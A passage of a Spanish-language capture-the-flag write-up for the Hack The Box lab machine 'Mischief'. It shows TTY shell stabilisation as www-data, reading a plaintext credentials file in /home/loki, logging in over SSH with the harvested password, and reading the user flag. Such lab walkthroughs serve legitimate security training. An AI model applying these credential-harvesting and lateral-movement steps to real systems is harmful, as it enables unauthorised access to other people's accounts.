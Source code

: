 ```bash
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

www-data@Mischief:/var/www/html$
 
```
Ahora para movernos por la terminal más comodos hagamos un tratamiento de la TTY.

```
export TERM=xterm
export SHELL=bash

Ctrl + z

stty raw -echo; fg

reset xterm

```
Luego de un rato enumerando en el directorio /home/loki encontre un archivo llamado "credentials", que
dentro se encuentran las credenciales de Loki para poder conectarnos por ssh.

```
www-data@Mischief:/home/loki$ ls
credentials  hosted  user.txt
www-data@Mischief:/home/loki$ cat credentials 
pass: lokiisthebestnorsegod
www-data@Mischief:/home/loki$ 
```
Nos conectamos por ssh y una vez dentro ya podemos leer la primera flag. 

```
❯ sudo ssh loki@10.10.10.92
[sudo] password for void: 
loki@10.10.10.92's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov 10 23:26:18 UTC 2023

  System load:  0.0               Processes:            167
  Usage of /:   61.5% of 6.83GB   Users logged in:      0
  Memory usage: 36%               IP address for ens33: 10.10.10.92
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


Last login: Sat Jul 14 12:44:04 2018 from 10.10.14.4
loki@Mischief:~$ ls
credentials  hosted  user.txt
loki@Mischief:~$ cat user.txt 
bf5***************************60
loki@Mischief:~$
```